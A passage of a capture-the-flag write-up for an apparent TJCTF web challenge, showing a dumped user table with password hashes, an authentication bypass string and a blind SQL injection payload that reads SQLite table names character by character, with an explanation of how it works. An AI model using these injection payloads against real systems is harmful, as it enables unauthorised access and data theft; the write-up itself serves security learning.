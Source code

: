 ```
Username: You, Password (hashed): 6b5f8e745378e0fc64ce20dc041974b05bf5c1cc, 500 hours passed on this site.

Username: test, Password (hashed): 9a23b6d49aa244b7b0db52949c0932c365ec8191, 0 hours passed on this site.

Username: tuxtheflagmasteronlylikeslowercaseletters, Password (hashed): 64b7c90a991571c107cc663aa768514822896f49, 20 hours passed on this site.

Username: humanA, Password (hashed): 9aa888e9ad7f219a13348362b4df4e41da33cb48, 2147483647 hours passed on this site.
```

Here, we notice the presence of the user `tuxtheflagmasteronlylikeslowercaseletters`, who appears to be of interest. I therefore attempted to crack his password using several dictionaries, such as rockyou, but none of them yielded the plaintext value.

I also bypassed authentication by forcing the use of specific usernames, like using 
`tuxtheflagmasteronlylikeslowercaseletters' /*` however, this did not allow me to retrieve the flag.

I then suspected that the flag was stored in another table, so I proceeded with a `Blind SQL injection` to dump the entire database.

> This was entirely unnecessary and a waste of time. Proceed to <a href="#cracking-hashs">Cracking hashs</a> to view the expected next part.
{: .prompt-danger }

## Dumping Database

Blind SQL Injection enables data extraction from the database even when the application does not directly display the results. The technique involves sending queries with true/false conditions and observing differences in the responses (such as a message or the order of results) to infer, character by character, the value of data elements.

In the context of our challenge, this could be achieved by injecting queries that uses a conditional `GROUP BY` with a `CASE WHEN` statement (see <a href="https://sql.sh/cours/case">SQL - CASE</a>).

```
' || pass <> '' GROUP BY (CASE WHEN (SELECT SUBSTR(name, 1, 1) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0) = 'a' THEN user ELSE 'randomSh1t' END) /*

```
What we're doing here is forcing the database to group the results either by the `user` column or by a dummy value `randomSh1t`, depending on whether the first character of the name of the first table is equal to `a`.

- If the condition is false, all results will be grouped under `'randomSh1t'`, which breaks the join and results in either a single generic user or a different output.

Example: Testing if first letter of first table name is `a`:

![2](/images/tjctf/chillsite/step5.png)
